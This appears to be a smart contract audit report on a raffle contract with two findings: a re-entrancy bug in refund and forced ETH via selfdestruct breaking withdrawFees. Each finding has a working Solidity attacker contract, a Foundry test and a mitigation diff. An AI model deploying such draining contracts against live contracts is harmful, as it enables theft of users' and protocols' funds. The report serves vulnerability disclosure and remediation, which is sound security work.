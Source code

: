 ### [H-1] Re-entrancy Bug which causes users funds + protocol funds to lost.

**Description:**
In the `PuffyRaffle::refund` function , when an attacker calls the refund , he create a contract that can re-enter the contract and keep receiving funds till the contract is drained. All the attacker need to do is to create a contract that has a fallback function that also calls the refund. so every time ETH is sent to the attackers contract, the fallback function get triggered and it keeps calling the refund till the balance of the contract is drained.

**Impact:** All users + protocol funds are drained

**Proof of Concept:**

<details>
<summary>Code</summary>

```solidity
///@notice Attacker contract
contract ReEntrancyAttacker {
    IPuffyRaffle raffle;
    constructor(address _raffle) {
        raffle = IPuffyRaffle(_raffle);
    }
    function refundAgain() public {
        while (address(raffle).balance != 0) {
            raffle.refund(0);
        }
    }

    fallback() external payable {
        refundAgain();
    }

}

///@notice Tests
function testRefundAllFundsInContract() public {
    ReEntrancyAttacker attackerCon = new ReEntrancyAttacker(
        address(puppyRaffle)
    );

    ///@notice attacker enters raffle
    address[] memory players = new address[](4);
    players[0] = address(attackerCon);
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    console.log("Balance of Attacker", address(attackerCon).balance);

    console.log("Balance of PuffyRaffle", address(puppyRaffle).balance);

    console.log("REFUNDING........");

    //attacker calls refund.
    attackerCon.refundAgain();

    console.log("Balance of Attacker", address(attackerCon).balance);

    console.log("Balance of PuffyRaffle", address(puppyRaffle).balance);
    }
```

</details>

**Recommended Mitigation:**
Adhere to the CEI , Checks Effects Interaction.

```diff
-  payable(msg.sender).sendValue(entranceFee);

-  players[playerIndex] = address(0);

+  players[playerIndex] = address(0);
+  payable(msg.sender).sendValue(entranceFee);
```

The Effects should come before any external calls.

### [H-2] Protocol Can lose all protocol fee funds in the contract forever.

**Description:**
In the `PuffyRaffle::withdrawFees` function , the check for the balance to be equal to the `totalFees` in the contract will always fail if additional `ETH` is sent to the contract. Although the function does not have a `fallback` function to receive funds. An attacker could create a contract with `ETH` and call a `selfdestruct` which will push`ETH` to the contract. Thereby causing the protocol to lose the funds in the contract.

**Impact:**
All protocol fees will be lost forever.

**Proof of Concept:**

<details>

<summary>Code</summary>

```solidity
///@notice attacker contract
contract AttackerContract {
function attack(address victim) external payable {
    selfdestruct(payable(victim));
}

fallback() external payable {}

}

function testWithdrawShouldFailedWhenBalanceIsGreaterThanTotalFees() public playersEntered {
    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);

    puppyRaffle.selectWinner();

    //attack
    AttackerContract attackerCon = new AttackerContract();

    //send funds to attacker contract
    vm.deal(address(attackerCon), 3 ether);

    attackerCon.attack(address(puppyRaffle));

    vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
}
```

</details>

**Recommended Mitigation:** Change the require check.

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

+ require(totalFees != 0, "PuppyRaffle: Not enough fees!");
```
